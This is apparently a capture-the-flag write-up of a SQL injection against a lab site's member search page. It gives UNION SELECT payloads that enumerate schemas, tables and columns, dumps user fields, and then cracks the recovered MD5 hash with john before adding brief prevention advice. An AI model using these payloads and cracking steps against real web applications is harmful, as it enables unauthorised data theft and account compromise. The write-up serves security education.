 # SQL injection
- a type of attack where a malicious user attempts to pass input that alters the final SQL query sent by the web application to the database
- the attacker first injects SQL code and then manipulates the web application logic, either by changing the original query or executing a completely new one
- https://book.hacktricks.xyz/pentesting-web/sql-injection

<b>keywords</b>: SQL<br>
<b>attacked site</b>: http://borntosec.42/?page=members

## Exploit
On the member page, there's a search bar. After entering a string to search for, the backend likely executes a query to the database to retrieve and display data. To check if SQL injection is possible, we pass a punctuation mark (<code>'</code>) as input:
```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 1
```
This input disrupts the database and generates an error, indicating that SQL injection may be possible. Next, we’ll determine the number of columns in the table using the <code>ORDER BY</code> clause. We increment the column index to identify when the table ends:
``` SQL
1 OR 1=1 ORDER BY 1-- -
1 OR 1=1 ORDER BY 2-- -
1 OR 1=1 ORDER BY 3-- -
```
The third column is inaccessible, meaning the table has 2 columns. We can now check the database version and username:
``` sql
1 OR 1=1 UNION SELECT @@version,user()-- -
```
└─     Output:
```
ID: 1 OR 1=1 UNION SELECT @@version,user()-- - 
First name: 5.5.64-MariaDB-1ubuntu0.14.04.1
Surname : borntosec@localhost
```
Next, we retrieve the names of all database schemas:
``` sql
1 OR 1=1 UNION SELECT 1,schema_name from INFORMATION_SCHEMA.SCHEMATA-- -
```
└─     Output:
```
information_schema
Member_Brute_Force
Member_Sql_Injection
Member_guestbook
Member_images
Member_survey
```
We proceed by identifying the current database:
``` sql
1 OR 1=1 UNION SELECT 1,database()-- -
```
└─     Output:
```
Member_Sql_Injection
```
With the current database identified, we search for a table that might contain the flag:
``` sql
1 OR 1=1 UNION SELECT TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES-- -
```
└─     Output:
```
[...]
ID: 1 OR 1=1 UNION SELECT TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES--  
First name: users
Surname : Member_Sql_Injection
[...]
```
Next, we check the columns in this table:
``` sql
1 OR 1=1 UNION SELECT COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS-- -
```
└─     Filtered output:
```
[...]
ID: 1 OR 1=1 UNION SELECT COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS--  
First name: user_id
Surname : users

ID: 1 OR 1=1 UNION SELECT COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS--  
First name: first_name
Surname : users

ID: 1 OR 1=1 UNION SELECT COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS--  
First name: last_name
Surname : users

ID: 1 OR 1=1 UNION SELECT COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS--  
First name: town
Surname : users

ID: 1 OR 1=1 UNION SELECT COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS--  
First name: country
Surname : users

ID: 1 OR 1=1 UNION SELECT COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS--  
First name: planet
Surname : users

ID: 1 OR 1=1 UNION SELECT COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS--  
First name: Commentaire
Surname : users

ID: 1 OR 1=1 UNION SELECT COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS--  
First name: countersign
Surname : users
[...]
```
Enumerating the columns manually is time-consuming, so we concatenate the column values and display them in the second column:
``` sql
1 OR 1=1 UNION SELECT 1, CONCAT(first_name, last_name, town, country, planet, Commentaire, countersign) FROM users
```
└─     Output:
```
ID: 1 OR 1=1 UNION SELECT 1, CONCAT(first_name, last_name, town, country, planet, Commentaire, countersign) FROM users 
First name: 1
Surname : FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28
```
The output provides a hashed password. We use <code>hash-identifier</code> to determine the hash type:
``` shell
└─$ hash-identifier sql_hash.txt                                                     
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 5ff9d0165b4f92b14994e5c685cdce28

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```
Knowing the hash type, we brute-force the password using <code>john</code>:
``` shell
└─$ john sql_hash.txt --format=Raw-MD5 --wordlist=/usr/share/wordlists/5million.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
FortyTwo         (?)     
1g 0:00:00:00 DONE (2024-08-08 23:22) 7.142g/s 16457p/s 16457c/s 16457C/s amore..marianne
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```
Finally, we hash the password in lowercase using SHA-256:
``` shell
└─$ echo -n "fortytwo" | sha256sum
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5  -
```
## Flag
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

## Exploit prevention
- validate and sanitize input
- use prepared statements (separate SQL logic from data)
- ensure that the database user account used by the application has the minimum necessary permissions
